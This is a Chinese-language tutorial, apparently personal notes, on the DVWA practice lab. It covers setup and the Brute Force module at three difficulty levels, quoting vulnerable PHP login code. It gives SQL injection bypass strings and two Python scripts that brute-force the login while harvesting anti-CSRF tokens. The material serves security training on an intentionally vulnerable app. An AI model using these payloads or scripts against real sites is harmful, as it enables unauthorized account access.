




# [dvwa](http://www.dvwa.co.uk/)

DVWA共有十个模块，分别是
```
Brute Force（暴力（破解））
Command Injection（命令行注入）
CSRF（跨站请求伪造）
File Inclusion（文件包含）
File Upload（文件上传）
Insecure CAPTCHA （不安全的验证码）
SQL Injection（SQL注入）
SQL Injection（Blind）（SQL盲注）
XSS（Reflected）（反射型跨站脚本）
XSS（Stored）（存储型跨站脚本）
```

# Reference
- [新手指南：DVWA-1.9全级别教程之Brute Force](https://www.freebuf.com/articles/web/116437.html)


## 搭建/使用
**windows**

推荐用 [phpstudy](http://phpstudy.php.cn/) 进行快速搭建




修改 config.inc.php,配置数据库密码 `$_DVWA[ 'db_password' ] = 'root';`

>登录 Login URL: http://127.0.0.1/dvwa/login.php

>账号密码: admin/password

**难度**


## Brute Force
Brute Force，即暴力（破解），是指黑客利用密码字典，使用穷举法猜解出用户口令

### Low
**服务器端核心代码**
```php
<?php

if(isset($_GET['Login'])){
//Getusername
$user=$_GET['username'];

//Getpassword
$pass=$_GET['password'];
$pass=md5($pass);

//Checkthedatabase
$query="SELECT*FROM`users`WHEREuser='$user'ANDpassword='$pass';";
$result=mysql_query($query)ordie('<pre>'.mysql_error().'</pre>');

if($result&&mysql_num_rows($result)==1){
//Getusersdetails
$avatar=mysql_result($result,0,"avatar");

//Loginsuccessful
echo"<p>Welcometothepasswordprotectedarea{$user}</p>";
echo"<imgsrc="{$avatar}"/>";
}
else{
//Loginfailed
echo"<pre><br/>Usernameand/orpasswordincorrect.</pre>";
}

mysql_close();
}

?>
```
可以看到，服务器只是验证了参数 Login 是否被设置（isset 函数在 php 中用来检测变量是否设置，该函数返回的是布尔类型的值，即 true/false），没有任何的防爆破机制，且对参数 username、password 没有做任何过滤，存在明显的 sql 注入漏洞。

**利用爆破burpsuite**

0. burp的安装过程略
1. 抓包
2. ctrl+I将包复制到intruder模块，因为要对password参数进行爆破，所以在password参数的内容两边加$


3. 选中Payloads，载入字典，点击Start attack进行爆破



4. 最后，尝试在爆破结果中找到正确的密码，可以看到password的响应包长度（length）“与众不同”，可推测password为正确密码，手工验证登陆成功。

**手工sql注入**

1. Username : admin' or '1'='1 Password :（空）,此时sql语句如下图:


2. Username :admin' # Password :（空）,此时sql语句如下图:


### Medium
**服务器端核心代码**
```php
<?php

if(isset($_GET['Login'])){
//Sanitiseusernameinput
$user=$_GET['username'];
$user=mysql_real_escape_string($user);

//Sanitisepasswordinput
$pass=$_GET['password'];
$pass=mysql_real_escape_string($pass);
$pass=md5($pass);

//Checkthedatabase
$query="SELECT*FROM`users`WHEREuser='$user'ANDpassword='$pass';";
$result=mysql_query($query)ordie('<pre>'.mysql_error().'</pre>');

if($result&&mysql_num_rows($result)==1){
//Getusersdetails
$avatar=mysql_result($result,0,"avatar");

//Loginsuccessful
echo"<p>Welcometothepasswordprotectedarea{$user}</p>";
echo"<imgsrc="{$avatar}"/>";
}
else{
//Loginfailed
sleep(2);
echo"<pre><br/>Usernameand/orpasswordincorrect.</pre>";
}

mysql_close();
}

?>
```
相比 Low 级别的代码，Medium 级别的代码主要增加了 mysql_real_escape_string 函数，这个函数会对字符串中的特殊符号（x00，n，r，，’，”，x1a）进行转义，基本上能够抵御 sql 注入攻击，但 MySQL5.5.37 以下版本如果设置编码为 GBK，能够构造编码绕过 mysql_real_escape_string 对单引号的转义（因实验环境的 MySQL 版本较新，所以并未做相应验证）；同时，$pass 做了 MD5 校验，杜绝了通过参数 password 进行 sql 注入的可能性。但是，依然没有加入有效的防爆破机制（sleep(2)实在算不上）。

具体的 mysql_real_escape_string 函数绕过问题详见
- [PHP防SQL注入不要再用addslashes和mysql_real_escape_string了](https://web.archive.org/web/20171107192133/https://blog.csdn.net/hornedreaper1988/article/details/43520257)
- [PHP字符编码绕过漏洞总结](http://www.cnblogs.com/Safe3/archive/2008/08/22/1274095.html)
- [mysql_real_escape_string() versus Prepared Statements](https://ilia.ws/archives/103-mysql_real_escape_string-versus-Prepared-Statements.html)

虽然sql注入不再有效，但依然可以使用 Burpsuite 进行爆破，与 Low 级别的爆破方法基本一样，这里就不赘述了。

### High
**服务器端核心代码**
```php
<?php

if(isset($_GET['Login'])){
//CheckAnti-CSRFtoken
checkToken($_REQUEST['user_token'],$_SESSION['session_token'],'index.php');

//Sanitiseusernameinput
$user=$_GET['username'];
$user=stripslashes($user);
$user=mysql_real_escape_string($user);

//Sanitisepasswordinput
$pass=$_GET['password'];
$pass=stripslashes($pass);
$pass=mysql_real_escape_string($pass);
$pass=md5($pass);

//Checkdatabase
$query="SELECT*FROM`users`WHEREuser='$user'ANDpassword='$pass';";
$result=mysql_query($query)ordie('<pre>'.mysql_error().'</pre>');

if($result&&mysql_num_rows($result)==1){
//Getusersdetails
$avatar=mysql_result($result,0,"avatar");

//Loginsuccessful
echo"<p>Welcometothepasswordprotectedarea{$user}</p>";
echo"<imgsrc="{$avatar}"/>";
}
else{
//Loginfailed
sleep(rand(0,3));
echo"<pre><br/>Usernameand/orpasswordincorrect.</pre>";
}

mysql_close();
}

//GenerateAnti-CSRFtoken
generateSessionToken();

?>
```
High级别的代码加入了 Token，可以抵御 CSRF 攻击，同时也增加了爆破的难度，通过抓包，可以看到，登录验证时提交了四个参数：username、password、Login 以及 user_token。

每次服务器返回的登陆页面中都会包含一个随机的 user_token 的值，用户每次登录时都要将 user_token 一起提交。服务器收到请求后，会优先做 token 的检查，再进行 sql 查询。


同时，High 级别的代码中，使用了 stripslashes（去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个）、 mysql_real_escape_string 对参数 username、password 进行过滤、转义，进一步抵御 sql 注入。

**使用python脚本爆破**
```python
from bs4 import BeautifulSoup
import urllib2
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'
        }
requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"

def get_token(requrl,header):
	req = urllib2.Request(url=requrl,headers=header)
	response = urllib2.urlopen(req)
	print response.getcode(),
	the_page = response.read()
	print len(the_page)
	soup = BeautifulSoup(the_page,"html.parser")
	user_token = soup.form.input.input.input.input["value"] # get the user_token
	return user_token

user_token = get_token(requrl,header)
i=0
for line in open("rkolin.txt"):
	requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
	i = i+1
	print i,'admin',line.strip(),
	user_token = get_token(requrl,header)
	if (i == 10):
		break
```
get_token 的功能是通过 python 的 BeautifulSoup 库从 html 页面中抓取 user_token 的值，为了方便展示，这里设置只尝试 10 次。

注:在最新版本中，由于hard难度的源代码修改，无法直接使用BeautifulSoup匹配user_token值，在此给出我略微修改的版本
```python
import requests, re
from bs4 import BeautifulSoup

requrl='http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/'
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://192.168.153.130/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=vlalfd2e2rbtptnd8pqqn646g4'
        }

def get_token(requrl,header):
    req = requests.get(url=requrl,headers=header)
    page = req.text
    soup = BeautifulSoup(page,"html.parser")
    value = soup.select("input[name=user_token]")

    key=str(value)
    p1 = r"(?<=value=\").+?(?=\")"
    pattern1 = re.compile(p1)
    matcher1 = re.search(pattern1,key)

    user_token= matcher1.group(0)
    a=str(user_token)
    print (req.status_code,len(page))
    return a

user_token = get_token(requrl,header)
i=0

for key in open("password.txt"):

    requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+key.strip()+"&Login=Login&user_token="+user_token

    i = i+1
    print (i,'admin',key.strip(), end=" " )
    user_token = get_token(requrl,header)
    if (i == 100):
        break
```



注: 使用 urllib 的 ProxyHandler；或者在全局环境变量中设置 http_proxy。 可以让 python 产生的 http 请求流量通过 burpsutie 的 proxy


https://www.freebuf.com/articles/web/116437.html

http://www.storysec.com/dvwa-sql-injection.html
https://www.freebuf.com/articles/web/123779.html


## sql注入


